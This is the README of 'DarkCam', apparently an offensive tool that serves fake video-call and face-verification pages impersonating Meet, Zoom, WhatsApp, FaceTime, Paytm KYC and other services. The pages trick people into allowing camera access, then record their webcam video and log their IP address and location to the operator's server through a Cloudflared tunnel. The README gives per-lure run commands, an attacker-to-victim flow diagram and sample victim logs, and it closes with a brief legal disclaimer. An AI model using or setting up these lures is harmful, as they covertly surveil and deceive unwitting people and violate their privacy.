


<div align="center">



[](https://python.org)
[](https://kali.org)
[](LICENSE)
[]()
[]()
[](https://flask.palletsprojects.com)
[](https://cloudflare.com)
[]()

</div>

---

## Terminal Preview



---

## ⚠️ Legal Disclaimer

> **DarkCam is strictly for authorized penetration testing, red team engagements, and educational/research purposes only.**
> Using this tool against any individual or system without **explicit written consent** is illegal under the Computer Fraud and Abuse Act (CFAA), IT Act 2000 (India), and similar laws worldwide.
> The author holds **zero liability** for any misuse or damage caused by this tool.
> **Use responsibly. Test only what you own or have permission to test.**

---

## What is DarkCam?

DarkCam is a social engineering tool that creates convincing fake video call lure pages to capture webcam footage from targets during authorized red team assessments. It uses the browser's native `MediaRecorder API` to record video and sends it back to a Flask server over a Cloudflared HTTPS tunnel — no port forwarding required.

---

## Features

```
  ✦  11 Realistic Lure Pages    →  Meet, Zoom, WhatsApp, Instagram,
                                    Omegle, Teams, Telegram, FaceTime,
                                    Instagram Verify, Google Verify, Paytm KYC
  ✦  Live Video Capture         →  WebM format, 5s chunked upload
  ✦  IP + Geolocation Logging   →  City, Region, ISP, Country
  ✦  Auto Cloudflared Tunnel    →  Instant public HTTPS URL
  ✦  No Port Forwarding         →  Works behind NAT/firewall
  ✦  Auto Chunk Merge           →  Single .webm output per session
  ✦  Multi-Victim Support       →  Each victim gets unique session ID
  ✦  Real-time Terminal Logs    →  Live victim info on connect
```

---

## Lure Pages

### 📹 Video Call Pages

| # | Page | Flag | Details |
|---|------|------|---------|
| 1 | 📹 Google Meet | `meet` | Fake meeting join screen |
| 2 | 💻 Zoom | `zoom` | Waiting for host UI |
| 3 | 📱 WhatsApp | `whatsapp` | Incoming video call from "Rahul Sharma" |
| 4 | 📸 Instagram | `instagram` | Video call with LIVE badge + timer |
| 5 | 🌐 Omegle | `omegle` | Random stranger video chat |
| 6 | 🟣 Microsoft Teams | `teams` | Corporate meeting — fake Meeting ID & Passcode |
| 7 | ✈️ Telegram | `telegram` | Incoming call with pulsing avatar animation |
| 8 | 🍎 FaceTime | `facetime` | Full-screen iOS-style call + self-view PiP |

### 🔐 Face Verification Pages

| # | Page | Flag | Details |
|---|------|------|---------|
| 9 | 📸 Instagram Verify | `instagram_verify` | Unusual activity detected — face scan with oval frame |
| 10 | 🔵 Google Verify | `google_verify` | New device login — identity confirm with progress bar |
| 11 | 💙 Paytm KYC | `paytm_kyc` | Wallet limited — Full KYC face scan, Aadhaar match flow |

---

## Installation

### 🐧 Linux / Kali

```bash
# Clone the repo
git clone https://github.com/Yaman-RedTeam/darkcam
cd darkcam

# Install dependencies
pip install -r requirements.txt

# Install cloudflared (auto-installs if missing, or manually)
curl -fsSL https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-amd64 \
  -o /usr/local/bin/cloudflared && chmod +x /usr/local/bin/cloudflared
```

### 📱 Termux (Android)

```bash
# Clone the repo
pkg install git -y
git clone https://github.com/Yaman-RedTeam/darkcam
cd darkcam

# One-click setup
bash setup-termux.sh
```

> **Note:** On Termux, open the link in your phone's Chrome browser — camera access works best there.

---

## Usage

```bash
# Default — Google Meet lure
python3 darkcam.py

# WhatsApp lure
python3 darkcam.py --page whatsapp

# FaceTime lure
python3 darkcam.py --page facetime

# Instagram face verification lure
python3 darkcam.py --page instagram_verify

# Google account verification lure
python3 darkcam.py --page google_verify

# Paytm KYC lure (India)
python3 darkcam.py --page paytm_kyc

# Custom port
python3 darkcam.py --page telegram --port 9090

# All flags
python3 darkcam.py --page [meet|zoom|whatsapp|instagram|omegle|teams|telegram|facetime|instagram_verify|google_verify|paytm_kyc]
                   --port [PORT]
                   --no-tunnel
```

---

## How It Works

```
 Attacker                        Victim
    │                               │
    │  python3 darkcam.py           │
    │  ──────────────────────────►  │
    │                               │
    │  Flask server starts          │
    │  Cloudflared tunnel → HTTPS   │
    │  Public URL generated         │
    │                               │
    │  Send URL ──────────────────► │ Opens link
    │                               │ Sees fake video call UI
    │                               │ Clicks Accept/Join
    │                               │ Browser asks camera permission
    │  ◄────── /log (IP + geo) ──── │ Allows camera
    │  ◄────── /upload (chunks) ─── │ Video recording starts
    │  ◄────── /finalize ─────────  │ Session ends (45s)
    │                               │
    │  output/SESSION.webm saved    │
    │  victims.log updated          │
```

---

## Output

```
darkcam/
└── output/
    ├── abc123xyz.webm       ← Captured webcam video
    ├── def456uvw.webm       ← Another victim session
    └── victims.log          ← JSON log of all victims
```

**victims.log sample:**
```json
{
  "timestamp": "2026-08-16T00:18:04",
  "ip": "152.58.129.164",
  "user_agent": "Mozilla/5.0 (Linux x86_64) Chrome/151.0.0.0",
  "session": "abc123xyz",
  "geo": {
    "city": "Mumbai",
    "region": "Maharashtra",
    "country": "IN",
    "org": "Reliance Jio Infocomm Limited"
  }
}
```

**Terminal output on victim connect:**
```
  [+] Victim connected:
      IP         : 152.58.129.164
      Browser    : Chrome 151 (Linux x86_64)
      Location   : Mumbai, IN
      ISP        : Reliance Jio Infocomm Limited

  [*] Video chunk 0 received from abc123xyz (187432 bytes)
  [*] Video chunk 1 received from abc123xyz (201984 bytes)

  [+] Video saved: output/abc123xyz.webm (3.3 MB)
```

---

## Ghost Series

> DarkCam is part of the **Yaman RedTeam Ghost Series** — a collection of offensive security tools for authorized engagements.

| Tool | Description | Status |
|------|-------------|--------|
| [GhostPhish](https://github.com/Yaman-RedTeam/ghostphish) | Advanced Phishing Framework | ✅ Active |
| [GhostBuster](https://github.com/Yaman-RedTeam/ghostbuster) | OSINT & Phone Intelligence | ✅ Active |
| **DarkCam** | Webcam Video Capture | ✅ Active |

---

## Requirements

- Python 3.8+
- Flask
- Colorama
- Requests
- Cloudflared binary
- Linux (Kali recommended)

---

<div align="center">

**Made with ❤️ by [Yaman RedTeam](https://github.com/Yaman-RedTeam)**

*For educational and authorized security testing only.*

</div>
